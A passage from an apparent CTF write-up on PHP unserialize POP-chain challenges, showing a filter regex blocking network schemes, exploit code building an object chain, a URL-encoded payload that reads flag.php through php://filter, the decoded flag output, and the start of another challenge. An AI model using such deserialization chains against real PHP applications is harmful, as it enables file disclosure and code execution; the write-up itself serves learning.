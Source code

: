 ```php
        if(preg_match("/gopher|http|file|ftp|https|dict|\.\./i", $this->source)) {
            echo "hacker";
            $this->source = "index.php";
        }
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}


$a= new Show();
$file='index.php';
$a->source=new Show();
$a->source->str=new Test();
$a->source->str->p=new Modifier();

echo PHP_EOL.serialize($a).PHP_EOL;
echo urlencode(serialize($a)).PHP_EOL;
```

```php
?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A9%3A%22index.php%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732881105710-291b4ae3-db40-4fd8-8e58-76f1482655e3.png)

```php
PD9waHAKY2xhc3MgRmxhZ3sKICAgIHByaXZhdGUgJGZsYWc9ICJmbGFnezdjYTMyNWZlLWI5YTQtNDJhZi1hYzA5LWI3MGJmZTBhZGYyMX0iOwp9CmVjaG8gIkhlbHAgTWUgRmluZCBGTEFHISI7Cj8
```

解码

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732881179381-f032262d-1eb5-4f67-b2f3-15ba3e8f427b.png)

## [2022DASCTF X SU 三月春季挑战赛]ezpop74
```php
 <?php

class crow
{
    public $v1;
    public $v2;

    function eval() {
        echo new $this->v1($this->v2);
    }

    public function __invoke()
    {
        $this->v1->world();
```